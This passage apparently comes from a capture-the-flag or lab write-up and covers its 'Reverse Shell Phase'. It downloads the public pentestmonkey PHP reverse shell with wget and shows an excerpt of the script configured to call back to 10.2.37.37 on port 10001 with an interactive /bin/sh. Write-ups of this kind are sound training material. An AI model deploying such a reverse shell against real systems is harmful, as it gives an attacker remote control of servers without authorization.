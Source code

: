 ![image.png](image%208.png)

> **Reverse Shell Phase**
> 

`wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php -O reverse.php`

```jsx
reverse.php                        100%[===============================================================>]   5.36K  --.-KB/s    in 0.002s  

2024-12-24 06:41:05 (3.21 MB/s) - ‘reverse.php’ saved [5491/5491]
```

`nano reverse.php`

```jsx
[REDACTED] - MORE

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.2.37.37';  // CHANGE THIS
$port = 10001;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

[REDACTED] - MORE
```
